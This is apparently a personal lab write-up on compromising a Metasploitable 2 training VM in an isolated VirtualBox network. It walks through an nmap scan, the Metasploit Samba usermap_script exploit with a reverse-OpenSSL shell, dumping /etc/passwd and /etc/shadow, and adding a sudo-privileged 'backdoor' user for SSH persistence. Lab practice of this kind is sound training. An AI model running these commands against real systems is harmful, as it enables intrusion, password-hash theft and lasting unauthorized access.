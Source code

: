 ```yaml
---
title: "Compromising metasploitable"
excerpt: "building my own attack and training environment. ain unauthorized access to a vulnerable Metasploitable 2 machine, extract sensitive data, and establish a persistent backdoor"
date: 2025-09-15
tags: [metasploitable, reconaissance, exploitation, post-exploitation, persistence]
layout: single
author_profile: true
---
```


#### Lab network setup
we do this to Isolate both VMs on a private network where they can communicate, without risking your real network

**1. Create a Host-Only Network in VirtualBox:**
VirtualBox Manager -> File -> Preferences -> Network -> Host-Only Networks -> Click the green "+" icon to create a new network (e.g., vboxnet0).
**2. Configure VM Network Settings:**
For both Kali and Metasploitable 2 VMs:
Settings -> Network -> Adapter 1 -> Attached to: Host-Only Adapter
Name: Select the newly created adapter (e.g., vboxnet0).
Optional: Add a second adapter set to NAT to the Kali VM to give it internet access.

#### 2. Reconnaissance
To discover the target, metasploitable , and its vulnerabilities
login into metasploit using username and password as msfadmin, type **ifconfig** and check inet t see the ip, do the same for kali.
In this case the host IP, kali is 192.168.56.102 and for metasploitable, Remote host 192.168.56.101
perform a port scna using nmap -Pn -sV -A -O 192.168.56.101. The scan reveals an old version of samba on port 445 which is vulnerable to  the Usermap_script exploit


#### 3. Exploiting using metasploit
launch metasploit **msfconsole -q**
**search samba** to see possible exploits, in this case we will exploit using **search usermap_script** and so we will use **use exploit/multi/samba/usermap_script** exploit. Run that in msf
run **show options** to see what need to be set ie RHOST and LHOST

Configure the required exploit parameters
**set RHOSTS 192.168.56.101   # (Remote Host) The target IP**
**set LHOST 192.168.56.102    # (Local Host) Your Kali IP**
Set a reliable payload, the default payload can be unstable. use a more robust one ie **set PAYLOAD cmd/unix/reverse_openssl**
Exploit
Handle the Session: The exploit will run and open a command shell session. It may seem to hang
Press Ctrl+Z to background the session
Type y to confirm
You are now back at the msf6 prompt. Your session is active in the background.

#### Post-explotation
We want to make sure to Explore the compromised system, loot data, and ensure you can get back in.
 To list all active sessions, we **sessions -l** after the ctrl+z above. Note the Id
 Then do a session interact **sessions -i 1** and we are in

 You can try things like whoami, id
 # What is the operating system?
cat /etc/issue
uname -a
# Shows Linux kernel version
# What is in the current directory?
ls -la
# What users are on the system?
cat /etc/passwd
# What is the network configuration?
ifconfig

we now look for sensitive files, tese are key places to check
# 1. Look for files in the user home directories
ls -la /home
ls -la /home/*
# 2. Check the /root directory (root user's home)
ls -la /root
# 3. Look for configuration files with passwords
cat /etc/passwd
cat /etc/shadow  # This file contains password hashes. You can try to crack them later.
# 4. Check the web server root (if it has a website)
ls -la /var/www

Download Sensitive Files: Background the session (Ctrl+Z -> y) and use Metasploit's download command from the msf6 prompt.
download /etc/passwd /home/[YourKaliUser]/passwd.txt
download /etc/shadow /home/[YourKaliUser]/shadow.txt

#### Persistence
We are determined to Create a reliable, long-term access method that doesn't depend on the initial exploit.
To do tis,  
1. Interact with your session again (sessions -i 1).
2. Create a New User:
useradd -m -s /bin/bash backdoor  # Creates user 'backdoor1' with a home directory
passwd backdoor                   # Set the password for the new user (e.g., 'backdoor')
usermod -aG sudo backdoor         # Adds the user to the sudo group (root privileges)

And the backdoor will be successfully created. Now in a new kali terminal, try to access it by **ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa backdoor@192.168.56.101** and put the pasword
 




